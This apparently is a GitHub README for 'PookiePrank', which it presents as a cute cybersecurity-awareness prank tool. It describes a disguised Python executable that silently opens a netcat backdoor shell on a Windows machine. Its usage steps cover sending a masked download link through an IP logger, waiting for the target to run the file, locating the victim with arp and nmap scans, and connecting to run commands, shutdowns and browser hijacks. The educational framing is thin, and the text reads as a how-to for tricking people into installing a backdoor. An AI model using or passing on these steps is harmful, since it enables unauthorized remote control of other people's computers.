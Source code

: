 # PookiePrank: A Cute but Terrifying Cybersecurity Awareness Tool 💀🎀


PLEASE READ THE FULL DOCUMENTATION FOR THE BETTER UNDERSTANDING OF THE PROJECT.
---

## What Is This?

**PookiePrank** is a lightweight "educational" program designed to demonstrate the importance of digital awareness through *strategic chaos*.  
It's a prank tool wrapped in charm — **cute on the outside, spooky on the inside**.

- Uses `netcat` for remote shell access (with full user control)
- Disguised behind a friendly-looking Python CLI
- A educational project that puts a Windows OS to vulnerability (and attacks eventually if not taken care of).
- Perfect for ethical demos, cybersecurity training, and… *light mischief*.

---

## Features

- **Silent Netcat Backdoor:** Triggers a reverse shell silently via batch file.
- **User Distraction UI:** Friendly messages and fake interactions to lower suspicion.
- **Remote Payload Execution:** Once connected, send commands in real-time.
- **Prank Arsenal:** Shutdowns, message popups, browser hijacks, and more.
- **Educational Angle:** Reinforces the dangers of blind trust in random executables.

---

## Why?

Because **security through trauma** works.  
This tool is designed to:

- Raise awareness of how easily social engineering works.
- Show how reverse shells operate.
- Make friends laugh *and* cry.
- Be a conversation starter in any cybersecurity interview.

---

## Usage

1. Host the executable and `netcat` folder.
2. Send the masked download link using a shortened IP logger service.
3. Wait for the target to run the file.
4. Connect to the shell:
- This is the command that triggers the backdoor in our Window machine (Runs automatically on running the Python file).
   ```bash
   nc64 -lvp 4444
   
- The command attacker needs to run in their machines.
  - For Linux
    ```bash
    nc <ip_address_of _the_target_machine> 4444
  
  - For Windows
    ```bash
    nc64 <ip_address_of _the_target_machine> 4444
    
   - For windows users, you can download `netcat` tool from [this repository](https://github.com/int0x33/nc.exe/)
   - In Linux, the netcat comes preinstalled.

   NOTE:
   
   - You will need to know the target ip address beforehand. You can either use IP Loggers or do an `arp` scan over the local network.
   
   - If you are on a virtual machine, perform an arp scan on your host machine..
   
   - For Wondows
     ```bash
     arp -a
   
   - For Linux
     ```bash
     sudo arp-scan --localhost
     
   This will list all the IP addresses in a network and we have to find our target from this which can simply be done by an nmap scan
   
   ```bash
   nmap -p 4444 <ip_address>
   ```
   If we find the port number 4444 open for any IP address, it maybe our target machine. Just try to connect using the netcat command if its successful the we're in the machine.


6. Enjoy responsibly (or face karmic doom).
  ---




---

## Responsible Pranking Guidelines

1. No persistence (no startup or registry hacks).

2. No firewall tampering.

3. No data theft or spying.

4. Always reveal the prank eventually.

5. Use only on friends who won't yeet you into oblivion.



---

## Legal Disclaimer

**This project is for educational and ethical use only.
The creator takes no responsibility for misuse or unforeseen Rickroll (or any) damage caused by the same.**


---

## Future Plans

1. Add GUI launcher with meme themes

2. Auto-cancel prank if user types a secret code

3. PookieSec Dashboard™ for multi-prank coordination

4. Add dancing ASCII Rick in the terminal



## One Last Thing...

> **IMPORTANT:** For this prank to work, **you and your target must be on the same network** (e.g., college Wi-Fi, LAN party, cursed hostel internet).  
> Netcat operates over **local IP addresses** unless you're routing through public ports with port forwarding — which we’re *not doing here* (because jail is not part of the prank).

So yeah — **same Wi-Fi = RickRoll access granted**.

Stay stealthy, stay sassy.

— *PookieSec Ops Out.*
